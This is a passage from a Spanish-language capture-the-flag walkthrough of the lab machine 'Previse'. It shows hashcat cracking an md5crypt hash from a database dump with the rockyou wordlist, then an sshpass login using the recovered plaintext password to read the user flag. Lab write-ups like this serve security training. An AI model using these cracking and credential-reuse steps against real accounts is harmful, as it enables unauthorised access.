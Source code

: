 ```bash
+----+----------+------------------------------------+---------------------+
3 rows in set (0.00 sec)
```

### Cracking hashes

Intentaremos crackear el hash obtenido anteriormente, después de un tiempo logramos crackear el hash obtenido con `hashcat`.

```bash
❯ hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

500 | md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5) | Operating System


$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!  
```

Nos conectamos mediante `SSH` a través del usuario `m4lwhere` y las credenciales obtenidas en el punto anterior. Finalmente, accedemos al equipo y comprobamos la flag **user.txt**.

```bash
❯ sshpass -p 'ilovecody112235!' ssh m4lwhere@10.10.11.104
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Mar  3 02:49:19 UTC 2025

  System load:  0.0               Processes:           181
  Usage of /:   50.2% of 4.85GB   Users logged in:     0
  Memory usage: 23%               IP address for eth0: 10.10.11.104
  Swap usage:   0%


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ cat user.txt 
b38*****************************
```
